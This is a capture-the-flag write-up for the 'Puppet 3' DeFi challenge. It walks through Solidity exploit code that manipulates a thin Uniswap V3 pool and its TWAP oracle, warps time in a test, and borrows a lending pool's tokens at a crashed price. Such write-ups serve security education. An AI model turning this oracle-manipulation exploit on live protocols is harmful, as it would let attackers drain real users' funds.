 # Solving the Puppet 3 – My Journey

## My Thoughts

_Simple, yet complex._

If you're tackling this challenge, definitely get comfortable with Uniswap V3 first. Unlike V2's simple curve, V3 has concentrated liquidity which changes everything about price impact. I spent time understanding the protocol beforehand and it paid off - once I got the concepts, solving this took minutes.

## The Challenge Breakdown

### Classic Oracle Manipulation

The lending protocol uses Uniswap V3's `TWAP` oracle for pricing. Manipulate the pool price, wait for TWAP to catch up, then borrow cheap. Simple concept.

### Concentrated Liquidity = Big Price Impact

Here's the key insight: The challenge gives us tiny liquidity `(100 DVT + 100 WETH)` concentrated in ticks `-60 to +60`. This creates a shallow order book where any decent-sized trade causes massive price swings.

In V2, liquidity spreads across the entire curve. In V3, cramming it into a narrow range means way higher capital efficiency but also way higher price impact - exactly what we need.

### The Economics

- Normal cost: ~3M WETH to borrow 1M DVT
- After manipulation: Fraction of that `(~0.14 ether)` due to crashed DVT price
- Available in the pool: Only 100 DVT + 100 WETH

### The TWAP Problem

Protocol uses `10-minute TWAP`, but we need results fast. The trick:

- Crash the price with a big swap
  ```js
  i_pool.swap({
    recipient: address(this),
    zeroForOne: true,
    amountSpecified: int256(dvtBalance),
    sqrtPriceLimitX96: TickMath.MIN_SQRT_RATIO + 1,
    data: bytes(""),
  });
  ```
- Use vm.warp() to fast-forward time in tests

  ```js
  vm.warp(block.timestamp + 114);
  ```

- TWAP now reflects our manipulated price
  ```js
  uint256 wethNeeded = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
  console.log("wethNeeded: ", wethNeeded); //0.14 ether
  ```
- Borrow at the cheap rate
  ```js
  function borrowAttack() external {
        i_weth.approve(address(i_lendingPool), type(uint256).max);
        i_lendingPool.borrow(i_amountToBorrow);
        transferTokensToRecovery();
    }
  ```

### The Attack flow

```js
//1.Swap all the DVT tokens the user owns, adding more DVT and taking WETH out and hence reducing the price
function swapAttack() external {
        uint256 dvtBalance = i_dvt.balanceOf(address(this));
        i_weth.deposit{value: address(this).balance}();
        console.log("dvtBalance: ", dvtBalance);
        //approve the pool to take the funds out
        i_dvt.approve(address(i_pool), type(uint256).max);

        i_pool.swap({
            recipient: address(this),
            zeroForOne: true,
            amountSpecified: int256(dvtBalance),
            sqrtPriceLimitX96: TickMath.MIN_SQRT_RATIO + 1,
            data: bytes("")
        });
    }
```

```js
//2. let the change reflect with some time
vm.warp(block.timestamp + 114);
```

```js
//3. Borrow at a cheaper rate and transfer all the tokens to recovery address
function borrowAttack() external {
        i_weth.approve(address(i_lendingPool), type(uint256).max);
        i_lendingPool.borrow(i_amountToBorrow);
        transferTokensToRecovery();
    }

    function transferTokensToRecovery() private {
        i_dvt.transfer(i_recovery,i_amountToBorrow );
    }
```

### Key takeaways

This challenge shows how V3's capital efficiency creates new attack vectors. The same concentrated liquidity that makes V3 awesome for LPs makes it risky for protocols using it as a price oracle without considering liquidity depth.
